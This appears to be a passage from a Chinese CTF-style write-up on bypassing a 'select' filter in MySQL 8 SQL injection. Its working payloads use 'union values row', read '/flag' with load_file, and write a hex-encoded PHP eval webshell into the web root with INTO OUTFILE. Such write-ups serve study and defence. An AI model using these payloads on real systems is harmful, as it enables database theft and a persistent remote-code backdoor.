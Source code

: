 ```
?&gt;
&lt;?php
// config.php
$dbhost = 'localhost';       // mysql服务器主机地址
$dbuser = 'root';           // mysql用户名
$dbpass = 'root';          // mysql用户名密码
$dbname = 'test';         // mysql数据库
$conn = mysqli_connect($dbhost，$dbuser，$dbpass，$dbname);
?&gt;
```

很明确，禁用了 select，能显示部分结果，空格可以用 `/**/` 代替，可以通过 order by 测列数或者通过 union values 判断列数

```
id=0/**/union/**/values/**/row('injection')
```

效果如下

[![](https://p4.ssl.qhimg.com/t0182fdd82184c2b336.png)](https://p4.ssl.qhimg.com/t0182fdd82184c2b336.png)

尝试注出数据库

```
id=0/**/union/**/values/**/row(database())
```

[![](https://p2.ssl.qhimg.com/t01d383d19d8193b0df.png)](https://p2.ssl.qhimg.com/t01d383d19d8193b0df.png)

当然这里可以通过以下两句

```
id=0/**/union/**/values/**/row(user())
id=0/**/union/**/values/**/row(@@secure_file_priv)
```

来判断用户权限和是否可读写，要是可以读写则可以进行如下注入

```
id=0/**/union/**/values/**/row(load_file('/flag'))
id=0/**/union/**/values/**/row(0x3c3f70687020406576616c28245f504f53545b615d293b3f3e)/**/into/**/outfile/**/'/var/www/html/shell.php'
```

[![](https://p4.ssl.qhimg.com/t0175fa3f2aa10dff10.png)](https://p4.ssl.qhimg.com/t0175fa3f2aa10dff10.png)

本地环境为 windows 所以根目录不同

[![](https://p2.ssl.qhimg.com/t01cb163909e034b14a.png)](https://p2.ssl.qhimg.com/t01cb163909e034b14a.png)

只能输出一个字段的内容，limit只能控制行数，select 是可以控制输出指定字段但是这里不允许，因为是 MySQL版本是 8.0.21 所以我们可以采用 table 和 小于号进行盲注，table 始终显示表的所有列，我们可以注其中一个字段，这里过滤了 or 所以打算采用另一个存储数据库名和表单名的视图 `sys.schema_tables_with_full_table_scans`， 这个视图本身的数据少方便我们搜寻，过滤了 `and` 和 `or` 可以采用 `&amp;&amp;` 或者 `||`

[![](https://p1.ssl.qhimg.com/t0152be1719019e4fb6.png)](https://p1.ssl.qhimg.com/t0152be1719019e4fb6.png)
